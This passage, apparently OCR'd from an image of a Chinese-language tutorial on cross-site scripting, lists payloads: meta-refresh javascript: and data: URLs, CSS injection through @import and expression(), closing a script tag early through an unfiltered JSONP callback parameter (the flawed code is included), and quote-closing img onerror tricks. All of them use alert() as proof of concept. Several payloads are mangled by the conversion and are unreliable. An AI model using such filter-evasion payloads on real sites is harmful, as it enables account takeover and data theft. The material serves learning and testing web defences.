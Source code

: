 ```
<meta http-equiv="refresh" content="0; url=javascript:alert(document.domain)">
Javascript: 协议可能被禁止，可以使用 data:
<meta http-equiv="refresh" content="0; url=data:text/html,<script>alert(" barret李靖")<="" script="">">

```

<p><strong>4. css注入</strong></p>

```
<style>
@import "data:,*%7bx:expression(write(1))%7D";
</style>
<style>
@imp\ ort"data:,*%7b- = \a %65x\pr\65 ssion(write(2))%7d"; </style>
<style>
<link rel="Stylesheet" href="data:,*%7bx:expression(write(3))%7d">

```
</style>
<p><strong>5. 提前闭合标签</strong></p>

```
http://example.com/test.php?callback=cb

缺陷代码：
<script type="text/javascript">
    document.domain='soso.com';
    _ret={"_res":2};
    try{
        parent.aaa(_ret);
    }catch(err){
        aaa(_ret);
    }
</script>

注入：http://example.com/test.php?callback=cb<script>alert("XSS")</script>

```

<p><strong>原理：</strong>cb为回调函数，如果后端并没有对callback字段进行过滤，则可以<code>cb&lt;/script&gt;&lt;script&gt;alert("XSS")&lt;/script&gt;</code>这么长的一串作为函数名，然后你就懂啦~ 本方式只针对上面有缺陷的代码。</p>
<p><strong>6. 提前闭合双引号</strong></p>

```
<input type="text" value="XSS<quot; onclick=<quot;alert(" barret李靖")"="">

<!--<img src="--><img src="x" onerror="alert("Barret李靖")//"">
<comment><img src="</comment><img src=x onerror=alert(" barret李靖")="" "="">
<![><img src="]><img src=x onerror=alert(" barret李靖")="" "="">
<style><img src="</style><img src="x" onerror="alert("Barret李靖")//"">

```
</comment>
<p><strong>7. 阻止编码</strong></p>
